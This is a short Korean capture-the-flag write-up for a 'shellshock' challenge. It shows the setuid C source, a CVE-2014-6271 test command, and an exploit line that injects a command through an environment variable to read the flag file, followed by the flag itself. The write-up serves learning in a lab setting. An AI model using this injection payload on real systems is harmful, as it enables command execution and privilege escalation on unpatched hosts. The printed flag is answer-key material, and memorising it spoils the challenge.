

# [목차]
**1. [Description](#Description)**

**2. [Write-Up](#Write-Up)**

**3. [FLAG](#FLAG)**


***


# **Description**




# **Write-Up**

소스는 다음과 같다.

```cpp
#include <stdio.h>
int main(){
        setresuid(getegid(), getegid(), getegid());
        setresgid(getegid(), getegid(), getegid());
        system("/home/shellshock/bash -c 'echo shock_me'");
        return 0;
}
```

Google에서 shellshock을 검색하면 여러 CVE코드를 확인 할 수 있다.

> [shell shock](https://en.wikipedia.org/wiki/Shellshock_(software_bug))

그 중 CVE-2014-6271를 검색해 보았고, 다음과 같은 테스트코드로 취약한지 점검할 수 있다.

```sh
shellshock@pwnable:~$ env x='() { :;}; echo vul' ./bash -c "echo test"
vul
test
```

bash파일이 따로 주어지는 것으로 보아 취약한 버전의 bash이거 'vul'이라는 문자열이 나와서 취약하다는 것을 알았다.

이제 다음과 같은 명령줄로 flag를 획득할 수 있다.

```sh
shellshock@pwnable:~$ env x='() { :; }; /bin/cat flag ' ./shellshock
only if I knew CVE-2014-6271 ten years ago..!!
Segmentation fault (core dumped)
```

# **FLAG**

**only if I knew CVE-2014-6271 ten years ago..!!**